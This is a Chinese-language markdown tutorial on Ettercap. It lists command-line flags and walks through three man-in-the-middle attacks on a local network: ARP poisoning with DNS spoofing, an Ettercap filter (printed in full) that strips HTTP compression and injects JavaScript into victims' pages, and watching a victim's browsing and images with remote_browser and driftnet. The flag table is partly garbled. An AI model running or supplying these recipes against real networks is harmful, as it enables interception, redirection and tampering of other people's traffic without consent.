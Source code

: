 # Ettercap的使用

## 常用指令

<table border="1">
    <tr>
        <th colspan="2">用户界面指令</th>
        <th colspan="2">通用选线项</th>
        <th colspan="2">日志选</th>
        <th colspan="2">嗅探与执行方式</th>
    </tr>
    <tr>
        <td>指令</td>
        <td>说明</td>
        <td>指令</td>
        <td>说明</td>
        <td>指令</td>
        <td>说明</td>
        <td>指令</td>
        <td>说明</td>
    </tr>
    <tr>
        <td>-T</td>
        <td>使用只显示字符</td>
        <td>-i</td>
        <td>使用网络接口</td>
        <td>-w</td>
        <td>将嗅探到的数据写入到pcap文件中量</td>
        <td>-M</td>
        <td>执行Mitm攻击</td>
    </tr>
    <tr>
        <td>-q</td>
        <td>安静模式，不显示抓到数据包的内容</td>
        <td>-l</td>
        <td>显示所有的网络接口</td>
        <td>-L</td>
        <td>此处计量所有流</td>
    </tr>
    <tr>
        <td>gt ></td>
        <td>大于</td>
        <td>-P</td>
        <td>开始该插件</td>
    </tr>
    <tr>
        <td>-G</td>
        <td>图形化启动</td>
        <td>-F</td>
        <td>加载过滤器</td>
    </tr>
</table>

## 案例

### DNS劫持

1. ettercap -G
2. 选择网络接口

![](Image\图像 2.png)

3. 扫描IP，打开IP列表

![图像 3](Image\图像 3.png)

4. 添加网关和攻击IP

![图像 18](Image\图像 4.png)

5. 在Mitm中选择arp攻击方式，勾选第一个选项

![图像 20](Image\图像 5.png)

6. 在Plugins中选择自带的插件dns_spoof

![图像 22](Image\图像 6.png)

7. 修改etter.dns配置文件

```
cd /etc/ettercap/etter.dns
leafpad etter.dns
```

![图像 19](Image\图像 7.png)


8. 开始攻击

### 访问网站弹框
1. 1-7和上面的一样
2. 找到可以让网站弹框脚本，保存为.filter文件

```
// 弹框脚本
if (ip.proto == TCP && tcp.dst == 80) {
    if (search(DATA.data, "Accept-Encoding")) {
        pcre_regex(DATA.data, "(Accept-Encoding:).*([\r\n])", "$1 identity$2");
        msg("change encoding");
    }
}
if (ip.proto == TCP && tcp.src == 80) {
    if (search(DATA.data, "<head>")) {
        replace("<head>", "<head><script>alert('js inject')</script>");
        msg("inject head");
    }
}

```


3. 编译filter文件为ef文件

![图像 13](Image\图像 8.png)

4. 在Filters中选择导入编译好的ef文件

![图像 14](Image\图像 9.png)

5. 开始攻击



### 查看对方浏览器

1. 1-7相同
2. 在Plugins中选择自带的插件remote_browser

![图像 12](Image\图像 10.png)

3. 开始攻击
4. 如果想查看网站的图片


```
driftnet -i eth0
```
![图像 11](Image\图像 11.png)